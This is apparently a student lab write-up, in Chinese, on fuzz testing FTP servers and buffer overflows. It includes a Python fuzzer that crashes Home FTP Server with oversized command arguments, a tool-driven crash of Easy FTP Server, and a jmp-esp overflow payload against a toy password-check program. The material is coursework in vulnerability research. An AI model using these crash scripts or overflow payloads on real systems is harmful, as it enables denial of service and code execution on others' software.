 ```yaml
---
title: 漏洞挖掘与模糊测试 
date: 2019-11-29 0:06:38 
tags:
  - "网络空间安全"
  - "软件安全"
categories:
  - ["实验","软件安全"]
  - ["漏洞","拒绝服务"]
comments: true

---
```


## 目标

了解fuzz原理，使用此方法模糊测试两种ftp服务器软件的漏洞，使其停止工作。
<!-- more -->

## 测试步骤与结果

### Easy FTP Server的Fuzz过程（FtpFuzz工具法）

1. 打开 Easy FTP Server3.1，点击Start开始服务。 {% asset_img 1.png %}
2. 打开FTP Fuzzer，把USER和PASS的参数改为`anonymous`
    {% note warning %}
    不要选中右上角的Fuzz this FTP command
    {% endnote %}
    {% grouppicture 2-2 %} {% asset_img 2.png %} {% asset_img 3.png %} {% endgrouppicture %}
3. 配置fuzz所用的脏数据，我们的目标是`LIST`指令。
    {% grouppicture 2-2 %} {% asset_img 4.png "这回要选中Fuzz this FTP command" %} {% asset_img 5.png "配置fuzzing data 为..?" %} {% endgrouppicture %}
4. 设置好服务器地址和端口，然后点击start开始。 {% asset_img 6.png %} {% asset_img 7.png %}
5. 在输出中时不时观察到有425错误：不能打开数据连接产生 {% asset_img 8.png %}
6. 出现红色的输出代表着FTP服务器已经宕机 {% asset_img 9.png %} {% asset_img 10.png "服务器端报错印证了这一点" %}
7. 查看同目录下的`ftptrace.txt`，发现是因为输入的命令过长，导致了服务器处理命令时缓冲区溢出，服务宕机。 {% asset_img 11.png %}

### Home FTP Server的Fuzz过程（python脚本法）

{% note default no-icon fuzz源码 %}

```python fuzz.py
import socket,sys
def ftp_test(ip,port1):
    target = ip
    port = port1
    buf = 'a'*272
    j=1
    fuzzcmd = ['mdelete ','cd ','mkdir ','delete ','cwd ','mdir ','mput ','mls ','rename ','site index ']
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        connct = s.connect((target,port))
        print "[+] Connected!"
    except:
        print "[!] Connection Failed!"
        sys.exit(0)
    s.recv(1024)
    s.send('USER test\r\n')
    s.recv(1024)
    s.send('PASS 123456\r\n')
    s.recv(1024)
    print "[+] Sending payload..."
    for i in fuzzcmd:
        s.send(i + buf*j + '\r\n')
        s.send(i + buf*j*4 + '\r\n')
        s.send(i + buf*j*8 + '\r\n')
        s.send(i + buf*j*40 + '\r\n')
        try:
            s.recv(1024)
            print "[!] Fuzz failed!"
        except:
            print "[+] Maybe we find a bug!"

if __name__ == '__main__':
    ftp_test("127.0.0.1",21)
```

{% endnote %}

1. 首先让ollydbg附加进程到ftpserver上 {% asset_img 12.png %}
2. 运行脚本，发现全部输出了`fuzz failed`，但与此同时，ftp服务也停止了。下一次再运行脚本，就会输出`Connection failed`。
    {% grouppicture 3-3 %} {% asset_img 13.png "fuzz failed" %} {% asset_img 16.png "connection failed" %} {% asset_img 15.png "服务也停止了" %} {% endgrouppicture %}
3. 查看system log，发现其在接收两次过长参数的`site index`垃圾指令后停止运行。 {% asset_img 17.png %}
4. Homeftpserver发生崩溃时，跳转到`KERNEL32.77399ED8`时产生了异常`0EEDFADE`。 {% asset_img 14.png "系统异常" %}

## 测试结论

* 2.1实际上复现了Quick’n Easy FTP Server Lite Version 3.1远程拒绝服务漏洞[^1]，FTP协议中的`LIST`命令后的用户数据长度如果超过232，同时最后字符以`?`结尾，就会造成这个程序的崩溃。

* 2.2可以通过自己编写的fuzz代码实现对ftp服务器发送脏数据包以实现fuzz攻击，达到让目标服务器崩溃的效果。虽然可以找到崩溃的位置，但本次实验未能探究到崩溃的原因。

## 思考题

1. 初次运行结果如下，用IDA32位打开源程序进行逆向分析。 {% asset_img 思考-1.png %}
2. 整体过程就是加载`user32.dll`，打开`password.txt`读出内容，然后与`"1234567"`作比较，若相等，则通过验证。我们可以看到在`sub_401030`有一个无界写入有界的`strcpy`操作，很容易发生溢出，那么我们要怎么知道在什么时候发生溢出呢？
    {% note info %}
    sub_401005仅仅是跳转到了sub_401030
    {% endnote %}
    {% asset_img 思考-2.png %} {% asset_img 思考-3.png %}
3. 首先通过fuzz计算“缓冲区”大小。每次向里填充一个字符，最终计算出我们需要填充字符的数量为`11940`比特。在填充满之前，会引发右图所示错误，注意到其中有提示`"ESP was not properly saved"`，说明ESP可能被覆盖掉了 

    {% note default no-icon fuzz源码 %}

    ```python fuzz.py
    import os
    
    rpwd = "Congratulation! You have passed the verification!\n"
    wpwd = "incorrect password!\n"
    
    def write_file(num):
        with open("password.txt","w+") as fp:
            fp.write("a"*num)
    def get_output():
        p=os.popen("overflow_exe.exe")
        return "".join(p.readlines())
   
    def is_valid_output(output):
        try:
            return output in (rpwd,wpwd)
        except:
            return False
   
    def fuzz():
        i = 100
        breakout_num = 0
        for i in range(100,20000,100):
            write_file(i)
            if is_valid_output(get_output()):
                print "[+] Writing {} letters to password.txt".format(i)
                continue
            else:
                for j in range(i-100,i,10):
                    write_file(j)
                    if is_valid_output(get_output()):
                        print "[+] Writing {} letters to password.txt".format(j)
                        continue
                    else:
                        for k in range(j-10,j+1):
                            write_file(k)
                            if is_valid_output(get_output()):
                                print "[+] Writing {} letters to password.txt".format(k)
                                breakout_num=k
                                continue
                            else:
                                breakout_num=k
                                break
                            break
                    break
            break
        print "[*] The program broke up after %d bytes of 'a's."%breakout_num
    ```
   
    {% endnote %} 
    {% grouppicture 2-2 %} 
    {% asset_img 思考-4.png %} 
    {% asset_img 思考-9.png %} 
    {% endgrouppicture %}

4. 还有一个缓冲区？通过ollydbg调试可以看到在检验密码的函数中有一个`MOV,EAX 2EE4`操作，中间取了`[EBP-2EE4]`的有效地址，后面还有一个`ADD,ESP 2EE4`操作，可以推断这是再开辟另一块缓冲区，大小为十进制的`12004`字节。 {% asset_img 思考-7.png %}
5. 此时EBP的值为`0x35f20`。 {% asset_img 思考-8.png %}
6. 我们输入的“密码”被复制到了`0x3307c`开头的地址上。`0x35f20-0x3307c=11940`(10进制)，与之前fuzz结果相同，说明`11940`字节一旦占满，程序就会崩溃
    {% asset_img 思考-6.png %}
    {% grouppicture 2-2 %} {% asset_img 思考-10.png %} {% asset_img 思考-11.png %} {% endgrouppicture %}
7. 上图是当`11940`个`"a"`被复制时，栈上的情况。可以看到`0x35f20`中的末两位被`11940`个`"a"`字符串的末尾`\0`所占，导致返回地址错误，程序崩溃
    {% asset_img 思考-12.png %}
8. 所以这个缓冲区的大小为`11940-4（32位系统的ebp大小）=11936`字节。一旦缓冲区大小被计算出来，就可以根据前几次作业中缓冲区溢出的知识来通过“验证”。
9. 这次仍然利用`jmp esp`地址`77f8948b`作为跳板
    {% asset_img 思考-5.png %}
10. Payload最终格式为：填充物（11940个a含4字节ebp）+`jmp_esp`地址+shellcode(`jmp 00401147`) 。构造password文档如下

```python exploit.py
def final_leak():
    shellcode = "\xe9\x1a\xb2\x3c\x00\x90\x90\x90"
    fill_in = "a"*11940+"b"*4
    with open("password.txt","w") as f:
        f.write(fill_in+jmp_esp+shellcode)
```

{% note warning %}

* 但是执行这个shellcode过后跳到了旁边的地址上，没有成功通过验证。只能在跳到`esp`地址后通过修改汇编以跳入验证成功语句中。
* 可能是指令在执行的过程中遇见了坏字符导致其在内存中的值发生了变化，致使执行不成功。
* 但是可以成功溢出，因为在调试的时候已经发现可以陷入内核中，从jmp esp地址中返回程序，shellcode被成功解析了。

{% asset_img 思考-13.png %}
{% endnote %}

[^1]: [Quick 'n Easy FTP Server Lite 3.1 - Denial of Service](https://www.exploit-db.com/exploits/12853)
